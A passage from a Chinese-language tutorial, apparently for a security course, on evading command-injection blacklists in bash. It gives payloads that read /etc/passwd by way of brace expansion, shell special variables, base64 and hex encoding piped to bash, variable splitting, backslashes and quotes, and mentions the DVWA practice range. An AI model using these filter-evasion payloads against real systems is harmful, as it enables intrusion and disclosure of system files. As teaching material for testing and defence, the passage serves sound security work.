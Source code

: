 在 Linux bash 环境中可以使用花括号 {cmd,arg} 扩展来绕过：

```java
{cat,etc/passwd}
```

这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。  
**（3）黑名单绕过**

绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。

* **shell 特殊变量**

先看下 shell 中的一些特殊变量：

<Image alt="图片5.png" src="https://s0.lgstatic.com/i/image/M00/92/B4/Ciqc1GASi7mASyv4AAFgvRQXlzo668.png"/>  

比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：

```java
ca$1t /etc/passwd
cat$*t /etc/passwd
ca$@t /etc/passwd
```

* **编码绕过**

直接将命令字符串转换成 URL 编码、hex 码、base 64 等编码，再转换回来执行：

```shell
# Base64编码命令"cat /etc/passwd"
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
# Hex编码命令"cat /etc/passwd"
echo "636174202f6574632f706173737764"|xxd -r -p|bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
# URL编码
cat%20%2Fetc%2Fpasswd
```

* **变量自定义**

将黑名单内容拆分到不同的变量，再拼接起来执行。

```java
a=c;b=at;c="/etc/passwd";$a$b $c
```

* **反斜杠**

反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。

```java
c\a\t /et\c/pas\s\wd
```

* **单双引号**

单双引号内的内容会被当作字符串处理，跟其他字符串可拼接出我们需要的命令行字符串。

```java
c"a"t /et''c/p'a'sswd
```
